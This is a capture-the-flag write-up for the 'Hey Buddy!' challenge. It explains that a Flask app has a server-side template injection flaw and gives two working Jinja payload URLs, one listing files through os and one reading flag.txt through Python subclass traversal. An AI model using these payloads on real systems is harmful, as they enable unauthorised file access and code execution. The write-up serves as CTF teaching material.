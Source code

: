 ## Hey Buddy!

![img](https://i.ibb.co/pdSMfVs/image.png)

### Solution:

This challenge is developed using flask and it contains the SSTI (Server Side Template Injection) vulnerability. It has two steps to exploit.

Step 1: Checking where is the flag file location

```
https://h3y-buddy.vishwactf.com/submit?name={{request.application.__globals__.__builtins__.__import__(%27os%27).listdir()}}
```
![img](https://i.ibb.co/nksZN8w/image.png)

Step 2: Reading flag file using the vulnerability

```
https://h3y-buddy.vishwactf.com/submit?name={{%27abc%27.__class__.__base__.__subclasses__()[92].__subclasses__()[0].__subclasses__()[0](%27flag.txt%27).read()}}
```

![img](https://i.ibb.co/tLrfQyX/image.png)
